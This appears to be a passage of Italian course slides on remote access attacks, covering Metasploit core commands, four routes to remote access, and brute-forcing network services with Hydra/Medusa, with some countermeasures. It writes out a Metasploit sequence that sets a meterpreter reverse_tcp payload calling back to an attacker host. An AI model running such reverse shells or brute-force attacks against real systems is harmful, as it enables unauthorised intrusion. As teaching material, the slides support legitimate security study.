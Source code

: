 Flusso tipico:
```terminal
use exploit/multi/...
set RHOSTS 192.0.2.10
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 198.51.100.1
exploit
```

---

## Comandi core Metasploit

- `search`
- `info`
- `show options`
- `set`
- `run`
- `sessions`
- `background`

---

## Quattro vie per l’accesso remoto

- **Servizio in ascolto vulnerabile** (overflow, config. errata).  
- **Instradamento attraverso host Unix** (source-routing, tunneling SSH).  
- **Esecuzione indotta dall’utente** (phishing, trojan).  
- **Attacco in modalità promiscua** (sniffer compromesso).  

---

## Sfruttare un servizio in ascolto

- Cercare **credenziali di default / deboli**.  
- Dizionari + brute-force parallelo.  
- Contromisure: `fail2ban`, strozzatura rete, 2FA.

---

## Brute-force

- Bersagli comuni: SSH, FTP, POP3, RDP, MySQL, …  
- **Hydra / Medusa**: moduli, threading, resume.

### Formula:

$$
\text{Tentativi / s} = \frac{\text{connessioni parallele}}{\text{tempo handshake}}
$$

### Difese
